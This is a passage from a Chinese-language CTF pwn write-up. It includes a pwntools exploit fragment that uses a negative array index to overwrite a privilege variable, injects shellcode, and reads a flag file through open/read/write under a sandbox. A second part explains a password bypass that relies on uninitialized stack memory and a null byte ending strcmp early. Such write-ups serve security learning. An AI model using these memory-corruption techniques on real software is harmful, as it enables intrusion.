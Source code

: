 ```python
'''

payload1 = asm(shellcode)

payload2 = s.open('./flag')
payload2 += s.read(3,0x20240000 + 300,100)
payload2 += s.write(1,0x20240000 + 300,100)

payload2 = asm(payload2)

def io(n) :
    p.recvuntil(">>>")
    p.sendline(str(n))

io(3)
p.recvuntil("255")
p.sendline(str(-8))
p.recvuntil("?")
p.sendline(str(1111))

io(4)
p.recvuntil("luck.")
p.send(payload1)
p.send(payload)

sleep(1)
p.interactive()
```

​	本题目中决定权限的level处于`.bss`段上， 因此可以通过名称数组负索引访问修改。（当然，直接用random也能秒T.T）

​	修改level后， 就可以构造`shellcode`了，这里由于可读入的空间有限，可以考虑重新调用`read()`, 由于前面刚刚调用过`read()`，因此其中的`rdi`与`rax`无需再进行设置，只需要修改`rdx`和`rsi`即可，使新调用的`read`能在本段`shellcode`后面读入足够长的字节

​	由于开启了沙箱，后面直接`orw`即可。

## Pwn_it_off!

`voice_pwd` 中存在未初始化的字符串。此时 `password` 位于栈中，其值为刚结束的 `beep` 中残留的随机字符串。只需将程序之前输出的最后一个随机字符串部分重复输入即可通过。

然而，在 `num_pwd` 中会检查密码是否为五位十进制数，且也存在未初始化栈上变量，即使在 `num_pwd` 输入“正确”的密码，也无法通过数字大小检查。注意到 `voice_pwd` 中程序通过`strcmp` 比对字符串，C 语言用 `'\x00'` 标志字符串末尾，同时 `strcmp` 字符串比对也会到此终止，从而绕过检查。在 `voice_pwd` 输入正确密码和`'\x00'` 后添加“二进制”形式的数字，使其稍后处于 `num_pwd` 中的 password 变量。

栈布局：（1 字符 == 1 字节，`*` 为用户输入、`#` 为已知随机值、`-` 为未知随机值）

```
栈顶（低地址）
beep:       voice_pwd:  num_pwd:
  ----beep    
  ########
  ########
  ########
  ########<-->#voipwd#
  ########    ########
  ########    *inputs*
  ########    ********    *inputn*
  ####----    ********<-->*numpwd*
  -canary-    -canary-    -canary-
栈底（高地址）
```
